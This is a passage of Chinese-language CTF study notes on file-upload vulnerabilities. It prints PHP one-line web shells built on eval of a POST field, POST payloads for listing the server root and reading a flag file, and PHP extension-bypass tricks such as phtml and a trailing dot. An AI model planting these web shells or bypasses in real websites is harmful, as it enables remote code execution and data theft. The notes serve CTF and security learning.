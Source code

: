 Apache Tomcat

Lighttpd

IBM WebSphere服务器

网站使用哪种服务器可在burpsuite中查看



## 文件上传漏洞

`为什么<?php @eval(_POST["y"]); ?>可以替换成<?= @eval(_POST["y"]); ?>`

```
主要是因为在php中，

<?=

?>

等价为

<?php echo

?>
```



一句话木马:`<?php @eval($_POST['shell']); ?>`

`<script language="php">eval($_POST['shell']);</script>`



文件上传之后,除了用蚁剑连接,也可以使用函数来读取flag,具体步骤如下:

进入上传的文件的url,使用POST方式提交函数,例如:

`shell=phpinfo();`              #可以查看被禁用的函数

`shell=print_r(scandir('/'));`            #输出根目录下的文件

`shell=print_r(file_get_contents('/flag'));`        #输出根目录下flag内容

`shell=print_r(show_source('/flag'));`



### 常见的php后缀绕过

php2, php3, php4, php5, phps, pht, phtm, phtml

还可以在php后缀后面加`空格`和`.`



### 文件格式修改绕过

抓包之后把
